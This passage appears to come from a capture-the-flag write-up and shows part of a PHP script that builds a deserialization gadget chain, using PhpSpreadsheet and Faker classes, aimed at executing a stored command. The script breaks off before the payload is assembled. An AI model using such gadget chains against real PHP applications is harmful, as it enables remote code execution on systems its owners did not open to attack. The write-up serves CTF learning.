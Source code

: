## Obtaining the Flag

Here's a script that i use to solves the challenge:

x.php

    ```php
    <?php

    // __destruct
    namespace PhpOffice\PhpSpreadsheet\Worksheet {
        class Worksheet
        {
                private $cellCollection;
                public function __construct($cellCollection)
                {
                    $this->cellCollection = $cellCollection;
                }
        }
    }

    // __call
    namespace Faker {
        class ValidGenerator {
            protected $generator;
            protected $validator;
            protected $maxRetries;
            public function __construct($class, $function)
            {
                $this->generator = $class;
                $this->validator = $function;
                $this->maxRetries = 10000;
            }
        }
    }

    // stored cmd
    namespace PhpOffice\PhpSpreadsheet {
        class Spreadsheet {
            private $calculationEngine;
            public function __construct($calculationEngine)
            {
                $this->calculationEngine = $calculationEngine;
            }
        }
    }

    // stored cmd 2
    namespace PhpOffice\PhpSpreadsheet\Collection {
        class Cells
        {
            private $currentCell;
            public function __construct($store)
            {
                $this->currentCell = $store;
            }
        }
    }

